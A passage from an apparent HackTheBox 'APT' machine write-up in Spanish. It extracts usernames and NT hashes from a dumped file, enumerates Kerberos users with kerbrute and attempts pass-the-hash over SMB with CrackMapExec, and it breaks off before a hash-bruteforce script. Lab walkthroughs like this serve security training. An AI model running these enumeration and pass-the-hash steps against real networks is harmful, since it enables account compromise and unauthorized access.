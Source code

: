 1. Creamos un fichero de usuarios

    ```bash
    cat data | awk '{print $1}' FS=":" | wc -l
    cat data | awk '{print $1}' FS=":" | sort -u | wc -l
    cat data | awk '{print $1}' FS=":" > users
    ```

1. creamos un fichero de hashes NT

    ```bash
    cat data | awk '{print $4}' FS=":" > hash
    ```

Aqui vamos a intentar bruteforcear los usuarios con kerbrute.

### Kerbrute {-}

Aqui vamos a tirar del **kerbrute** para tratar de brueforcear el Kerberos para conocer los usuarios validos

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build -ldflags "-s -w" .
upx kerbrute
```

Ya podemos enumerar los usuarios 

```bash
./kerbrute userenum --dc apt -d htb.local ../users
```

Aqui vemos que hay un usuario **henry.vinson@htb.local** que es valido.

Si intentamos un pass the hash con este usuario

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H '2de80758521541d19cabbba480b260e8f'
```

Vemos que el hash no es valido. Aqui intentamos ver si el hash de este usuario esta en la lista de los hashes pero como kerbrute o otra heramientas
como pyKerbrute no nos permiten hacer un bruteforce de hashes, nos creamos nuestro proprio script en python

> [ ! ] NOTAS: podriamos intentar bruteforcear hashes con smb con el comando 
```bash
 poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H /home/s4vitar/Desktop/APT/content/hash 
```
 pero 
se bloquea a partir de unos cuantos hash (seguridad de smb). 

### Script de bruteforce de hashes {-}
